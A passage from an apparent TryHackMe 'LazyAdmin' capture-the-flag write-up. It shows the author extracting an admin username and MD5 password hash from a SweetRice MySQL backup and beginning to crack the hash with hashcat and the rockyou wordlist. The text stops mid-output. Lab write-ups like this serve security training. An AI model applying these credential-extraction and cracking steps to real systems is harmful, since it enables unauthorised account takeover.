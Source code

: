 The MYSQL file contains a well hidden serialized javascript object, which contains a value next to 'passwd'

```
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

```

After decyphering the text, got more usable data, which lends a pointer towards the username too.

```
a:17:{s:4:"name";
s:25:"Lazy Admin&#039;
s Website";
s:6:"author";
s:10:"Lazy Admin";
s:5:"title";
s:0:"";
s:8:"keywords";
s:8:"Keywords";
s:11:"description";
s:11:"Description";
s:5:"admin";
s:7:"manager";
s:6:"passwd";
s:32:"42f749ade7f9e195bf475f37a44cafcb";
s:5:"close";i:1;
s:9:"close_tip";
```
Admin username looks like `manager`
Password looks like `42f749ade7f9e195bf475f37a44cafcb`

Lets see if can ID and crack the hash. Using some software determined it's probably MD5. So testing with `hashcat`.

```
kali@kali:~/Desktop/TryHackMe/lazyadmin$ hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz, 2890/2954 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
```